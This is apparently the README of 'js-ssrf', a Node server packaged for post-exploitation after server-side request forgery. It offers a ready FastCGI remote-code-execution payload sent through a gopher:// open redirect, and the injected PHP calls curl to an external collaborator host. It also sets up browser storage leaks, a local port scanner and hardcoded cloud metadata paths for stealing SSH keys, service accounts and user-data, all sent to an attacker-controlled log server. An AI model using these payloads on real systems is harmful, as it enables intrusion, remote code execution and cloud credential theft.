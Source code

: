 # js-ssrf
Server prepared for SSRF post exploitation, javascript exploits, tools and open redirect.

*AFTER SSRF*

# Installation

```
npm install express
```

# How To Run

```
node server.js
```

## Available Exploits And Tools
* Browser Storage Leak
* Chrome Headless Debug Enabled
* Leak Browser Information (Plugins, versions, etc ...)
* Cloud Metadata Information
* Local Port Scanner
* Open redirect

# How To Use

## Open Redirect
Any request that starts with **/openredirect** will redirect to the passed URL in the **url** parameter with the given scheme and parameters. You can abuse of the **gopher://** scheme to get remote code execution.

**Redirect to Google Example:** http://127.0.0.1:2222/openredirect?url=https://www.google.com

**Exploit Fastcgi RCE example:** http://127.0.0.1:2222/openredirect?url=gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH108%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/usr/share/php/PEAR.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00l%04%00%3C%3Fphp%20system%28%27curl%20dm3lxhjmrekd2fwnsns1r1iin9t0hp.burpcollaborator.net%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00

## Browser Storage Leak, Chrome Headless Debug Enabled, Leak Browser Information (Plugins, versions, etc ...), Cloud Metadata Information and Local Port Scanner

You need to edit the HTML page located at htmls/js-exploits.html (every request to the root page will trigger this HTML). 

#### Inportant: 
Edit the value of **collaboratorServer**  to your burp collaborator or log server, because this is how the server will retrieve the sensitive information.

```
//Collaborator server to receive info
var collaboratorServer = "ysu632p7xzqy8028y8ymxmo3tuzkn9.burpcollaborator.net";
```

If you don't have a log or burp collaborator server, this server has one in the **/log** path:

**Example:** http://127.0.0.1:2222/log?msg=LOGTHIS

**Server Log Output**:

```
Connection received: ::ffff:127.0.0.1
/log?msg=LOGTHIS
```

To use this server log you just need to edit the value of **collaboratorServer** to your IP address and port:

**Example (External IP):** 

```
//Collaborator server to receive info
var collaboratorServer = "208.12.33.44:2222";
```

#### JS Exploits and Tools
Uncomment the following lines that call the respective exploit function that you want:

```
//Browser Storage Leak
//localStorageLeak();

//Try to fetch Chrome Headless debug port
//chromeHeadless();

//Get browser information (Plugins, versions, etc ...)
//getBrowserInfo();

//GET Cloud metadata information
//cloudMetadata(googleMetadataServer, googleMetadataPaths, googleHeaders);

//Local port scanner
//portScanner("127.0.0.1", communPorts);
```

To help you, I already hardcoded some metadata servers and their paths to leak the desired information:

```
//Google Cloud
var googleMetadataServer = "metadata.google.internal";
var googleMetadataPaths = {"SSH-Keys: ": "/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json", "Service Accounts: ": "/computeMetadata/v1/instance/service-accounts/?recursive=true&alt=json", "Hostname: ": "/computeMetadata/v1/instance/hostname"}
var googleHeaders = {"X-Google-Metadata-Request": "true"}

//Alibaba Cloud
var alibabaMetadataServer = "100.100.100.200";
var alibabaMetadataPaths = {"SSH-Keys: ":"/latest/meta-data/public-keys/0/openssh-key", "Hostname: ": "/latest/meta-data/hostname", "User-Data: ": "/latest/user-data"};

//Amazon AWS & D.O
var othersMetadataServers = "169.254.169.254";

//Amazon
var amazonMetadataPaths = {"SSH-Keys: ": "/latest/meta-data/public-keys/0/openssh-key", "Hostname: ": "/latest/meta-data/public-hostname", "AMI-ID: ": "/latest/meta-data/ami-id"};

//Digital Ocean
var digitalOceanPaths = {"User-data": "/metadata/v1/user-data", "Hostname: ": "/metadata/v1/hostname", "SSH-Keys: ": "/metadata/v1/public-keys"}

//Local port scanner | Commun ports
var communPorts = [80, 81, 300, 443, 591, 593, 832, 981, 1010, 1311, 2082, 2087, 2095, 2096, 2480, 3000, 3128, 3333, 4243, 4567, 4711, 4712, 4993, 5000, 5104, 5108, 5800, 6543, 7000, 7396, 7474, 8000, 8001, 8008, 8014, 8042, 8069, 8080, 8081, 8088, 8090, 8091, 8118, 8123, 8172, 8222, 8243, 8280, 8281, 8333, 8443, 8500, 8834, 8880, 8888, 8983, 9000, 9043, 9060, 9080, 9090, 9091, 9200, 9443, 9800, 9981, 12443, 16080, 18091, 18092, 20720, 28017]
```
